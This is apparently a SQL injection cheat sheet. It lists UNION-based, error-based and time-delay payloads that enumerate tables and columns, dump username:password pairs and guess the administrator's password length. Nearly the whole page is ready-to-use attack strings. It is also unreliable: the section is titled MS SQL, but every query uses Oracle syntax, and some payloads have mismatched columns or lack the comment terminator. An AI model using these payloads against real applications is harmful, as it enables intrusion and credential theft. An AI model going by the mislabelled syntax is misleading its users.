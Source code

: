 

### Microsoft SQL (MS SQL)

### Retreaving Database version

```mysql
SELECT banner FROM v$version
```

```
SELECT version FROM v$instance
```

**UNION SQLi Context**
```
' UNION SELECT NULL,banner FROM v$version -- -
```

```
' UNION SELECT NULL,version FROM v$version
```

> **Note:** In UNION Statement we have to match the number of columns of first select statement so that's why we use one NULL in the payload you can modify that according to your requirements

### String Concatenation

```
'string1' || 'string2'
```

```
SELECT username || ":" || password FROM users;
```

**In a UNION SQLi Context**

```
' UNION SELECT NULL,username || ":" || password FROM Users -- -
```

### Substring

```
SELECT SUBSTR(password,2,1) FROM users 
```

**In UNION SQLi context**
```
' UNION SELECT SUBSTR(password,2,1) FROM users -- -
```

### Comments

```
--comment
```

### Database Contents

**List All Tables**
```
SELECT table_name FROM all_tables;
```

**In a UNION MS SQLi context**

```
' UNION SELECT NULL,table_name FROM all_tables -- -
```

**List All Columns**
```
SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```

**In UNION MS SQLi**
```
' UNION SELECT column_name FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' -- -
```

### Conditional Errors

```mysql
SELECT CASE WHEN LENGTH(password) = 3 THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator'
```

**In UNION MS SQLi**
```
' UNION SELECT NULL,NULL,CASE WHEN LENGTH(password)=FUZZ THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator'
```

### Time delays

```
dbms_pipe.receive_message(('a'),10)
```

### Conditional Time delays

```
SELECT CASE WHEN (LENGTH(password) = 3) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM users where username = 'administrator'
```

**In UNION MS SQLi**
```
' UNION SELECT NULL,NULL,CASE WHEN (LENGTH(password) = 3) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM users where username = 'administrator'
```

